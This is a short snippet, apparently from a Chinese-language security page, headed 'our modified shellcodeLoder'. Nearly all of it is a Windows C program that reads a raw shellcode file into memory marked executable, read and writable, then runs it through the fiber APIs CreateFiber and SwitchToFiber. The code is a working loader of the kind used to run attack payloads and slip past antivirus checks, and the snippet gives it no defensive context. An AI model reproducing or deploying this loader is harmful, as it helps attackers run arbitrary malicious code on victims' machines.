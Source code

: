 我们修改后的shellcodeLoder

```c
#include<stdio.h>
#include<stdlib.h>
#include<windows.h>
int main(int argc, char* argv[])
{
    HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open  File Error!%d\n", GetLastError());
        return -1;
    }
    DWORD dwSize;
    dwSize = GetFileSize(hFile, NULL);

    LPVOID lpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpAddress == NULL)
    {
        printf("VirtualAlloc error:%d\n", GetLastError());
        CloseHandle(hFile);
        return -1;

    }
    DWORD dwRead;
    ReadFile(hFile, lpAddress, dwSize, &dwRead, 0);
    

    PVOID mainFiber = ConvertThreadToFiber(NULL);
    PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)lpAddress, NULL);
    SwitchToFiber(shellcodeFiber);
    DeleteFiber(shellcodeFiber);

    system("pause");
    return 0;
}
```

